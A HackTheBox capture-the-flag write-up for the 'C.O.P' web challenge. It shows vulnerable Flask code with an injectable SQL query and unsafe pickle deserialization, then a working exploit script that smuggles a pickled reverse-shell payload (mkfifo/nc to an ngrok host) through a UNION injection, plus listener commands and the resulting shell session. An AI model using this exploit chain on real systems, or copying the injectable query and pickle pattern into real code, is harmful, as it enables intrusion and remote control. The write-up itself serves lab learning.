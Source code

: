```yaml
---
title: HackTheBox - C.O.P
author: 0
date: 2023-03-31 18:00:00 +0800
categories: [htb, challenge]
tags: [web, sql-injection, insecure-deserialization, pickle]
render_with_liquid: false
---
```

# C.O.P

> The C.O.P (Cult of Pickles) have started up a new web store to sell their merch. We believe that the funds are being used to carry out illicit pickle-based propaganda operations! Investigate the site and try and find a way into their operation!

When the code uses `pickle`, Insecure Deserialization directly comes to mind. In this case, pickle data is deserialized when the homepage or a certain product page is requested.

When a certain product page is requested, an id parameter is provided in the URL. There is raw data being placed in a format string in the `select_by_id` method that provides the data for the product page.

```python
from application.database import query_db

class shop(object):

    @staticmethod
    def select_by_id(product_id):
        return query_db(f"SELECT data FROM products WHERE id='{product_id}'", one=True)

    @staticmethod
    def all_products():
        return query_db('SELECT * FROM products')    
```

This data then gets loaded by `pickle`.

```python
from flask import Flask, g
from application.blueprints.routes import web
import pickle, base64

app = Flask(__name__)
app.config.from_object('application.config.Config')

app.register_blueprint(web, url_prefix='/')

@app.template_filter('pickle')
def pickle_loads(s):
	return pickle.loads(base64.b64decode(s))

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None: db.close()
```

We can write a script that performs an SQL injection on the product_id parameter to add our serialized payload that then spawns a reverse shell. I didn't managed to get `cat flag.txt` payload to work, but a reverse shell did work.

```python
import requests
import sys
import base64
import pickle

class Exploit():
    def __reduce__(self):
        import os
        cmd = ("mkfifo /tmp/f;nc NGROK_URL NGROK_PORT  0</tmp/f|/bin/sh -i 2>&1|tee /tmp/f")
        return os.system, (cmd,)
serialized_data = base64.b64encode( pickle.dumps(Exploit())).decode()
payload = f"1' UNION select '{serialized_data}' --" 
encoded_payload = requests.utils.requote_uri(payload)

url = f'http://{sys.argv[1]}'
response = requests.get(f'{url}/view/{encoded_payload}') 
print(response.request.url)
print(response.content)
```

Important to first install and run ngrok, replace `NGROK_URL` and `NGROK_PORT` in the payload:
```bash
$ Downloads/ngrok tcp 9001
```

Start a netcat session to catch the reverse shell:
```bash
$ nc -lvnp 9001
```

After running the exploit script, we get a shell through netcat that was setup in a seperate terminal:
```bash
$ python3 exploit2.py 161.35.164.69:31934
```

```bash
$ nc -lvnp 9001                                
listening on [any] 9001 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 39644
/bin/sh: can't access tty; job control turned off
/app # ls
application
cop.db
flag.txt
requirements.txt
run.py
schema.sql
/app # cat flag.txt
HTB{**REDACTED**}
/app # 
```
